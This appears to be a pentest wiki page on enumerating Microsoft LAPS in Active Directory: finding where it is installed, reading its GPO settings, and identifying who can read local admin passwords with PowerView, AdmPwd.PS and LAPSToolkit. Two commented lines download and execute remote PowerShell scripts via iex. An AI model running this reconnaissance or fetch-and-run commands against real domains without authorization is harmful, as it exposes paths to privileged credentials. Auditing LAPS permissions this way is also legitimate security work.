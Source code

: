 # LAPS

## Theory

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

This page is about enumeration, for LAPS-based attacks, please refer to [this page](../../../ad/movement/dacl/readlapspassword.md).

## Practice

### Check If Activated

{% tabs %}
{% tab title="Files/Folders" %}
We can check if LAPS is installed by enumerating related files and folders

```powershell
# Identify if installed to Program Files
# PowerShell
Get-ChildItem 'C:\Program Files\LAPS\CSE\'
Get-ChildItem 'C:\Program Files (x86)\LAPS\CSE\'

#Cmd
dir 'C:\Program Files\LAPS\CSE\'
dir 'C:\Program Files (x86)\LAPS\CSE\'
```
{% endtab %}

{% tab title="Domain Object" %}
We can guess if LAPS is installed by checking the LAPS AD Object:

```powershell
#ActiveDirectory PowerShell module (RSAT)
#iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
Get-ADObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=DC01,DC=Security,CN=Local'

#PowerView
#IEX(IWR -usebasicparsing https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
Get-DomainObject -SearchBase "LDAP://DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
Get-DomainObject "CN=ms-Mcs-AdmPwd,CN=Schema,CN=Configuration,DC=domain,DC=local"

#PowerView
# Find computers where the expiration time is not empty, any user can read this
Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName
```
{% endtab %}

{% tab title="GPOs" %}
We may enumerate if LAPS is installed by checking GPOs with [PowerView](../tools/powerview.md).

```powershell
#PowerView
# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl
Get-DomainGPO | ? { $_.DisplayName -like "*password solution*" } | select DisplayName, Name, GPCFileSysPath | fl
```

If you find a GPO, you can resolve computers linked to this GPO as follow&#x20;

```powershell
Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}
```
{% endtab %}

{% tab title="Registry" %}
We can check if LAPS is installed by enumerating related registries

```powershell
#Powershell
Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft Services\AdmPwd" -Name AdmPwdEnabled

#Cmd
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled
```
{% endtab %}

{% tab title="LAPSToolkit" %}
The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) is a tool to audit and attack LAPS environments. We may use following commands to enum computers which have LAPS enabled.

```powershell
# Import LAPSToolkit
. .\LAPSToolkit.ps1

# Gets all computers which have LAPS enabled
Get-LAPSComputers
```
{% endtab %}
{% endtabs %}

### LAPS GPO Configuration

By reading the GPO configuration file, you may retreive following informations: Password complexity, Password length, Password chage frenquency, the LAPS managed account name, and password expiration protection policy.

{% tabs %}
{% tab title="Registry.pol" %}
If LAPS is deployed by GPO, we can identify the configuration file to discover some details about the configuration.&#x20;

```powershell
Get-Content "<GPCFileSysPath>\Machine\Registry.pol"
```

After downloading the GPO registry.pol file which location is at the `gpcfilesyspath` obtained while enumerating GPOs, we can use`Parse-PolFile` from [**GPRegistryPolicyParser** ](https://github.com/PowerShell/GPRegistryPolicyParser)and obtain LAPS related informations.

```powershell
Parse-PolFile "Registry.pol"
```
{% endtab %}
{% endtabs %}

### LAPS Read Password Access

You may enumerate principals that can read the LAPS password on given systems by using [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1), [admpwd.ps](https://www.powershellgallery.com/packages/AdmPwd.PS/6.3.1.0),  or even [adsisearcher](https://devblogs.microsoft.com/scripting/use-the-powershell-adsisearcher-type-accelerator-to-search-active-directory/).

{% tabs %}
{% tab title="PowerView" %}
We can enumerate who can read the LAPS password using [Powersploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1).

```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd for a giver computer
Get-AdmPwdPassword -ComputerName computer01 | fl

# Find the principals that have ReadPropery on ms-Mcs-AdmPwd for each computers
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }

# Find the principals that have ReadPropery on ms-Mcs-AdmPwd for each OU
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```
{% endtab %}

{% tab title="AdmPwd.PS" %}
We can enumerate who can read the LAPS password using [admpwd.ps](https://www.powershellgallery.com/packages/AdmPwd.PS/6.3.1.0) (LAPS PowerShell module). You can check if it's installed as follow:

```powershell
#Check if LAPS Powershell module is installed
#By enumerating files
Get-ChildItem "C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS"

#By enumerating commands
Get-Command *AdmPwd*
```

To enumerate, use following commands

```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd for a given OU
Find-AdmPwdExtendedRights -Identity <OU> | fl
```
{% endtab %}

{% tab title="LAPSToolkit" %}
The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) is a tool to audit and attack LAPS environments. We may use following commands to enum users that can read LAPS passwords.&#x20;

`Find-LAPSDelegatedGroups` will query each OU and find domain groups that have delegated read access. `Find-AdmPwdExtendedRights` goes a little deeper and queries each individual computer for users that have "All Extended Rights". This will reveal any users that can read the attribute without having had it specifically delegated to them.

```powershell
# Get Groups that can read the ms-Mcs-AdmPwd attribute
Find-LAPSDelegatedGroups

# Checks for ExtendedRights for Laps on each AD Computer
Find-AdmPwdExtendedRights
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps" %}

{% embed url="https://buaq.net/go-39069.html" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps" %}
